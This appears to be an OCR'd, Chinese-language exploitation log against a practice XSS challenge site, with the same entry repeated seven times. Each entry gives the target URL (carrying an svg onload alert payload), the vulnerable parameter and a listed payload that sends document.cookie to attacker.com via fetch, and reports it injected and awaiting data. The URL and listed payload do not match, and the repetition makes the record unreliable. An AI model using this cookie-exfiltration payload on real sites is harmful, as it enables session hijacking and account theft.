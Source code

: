 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传
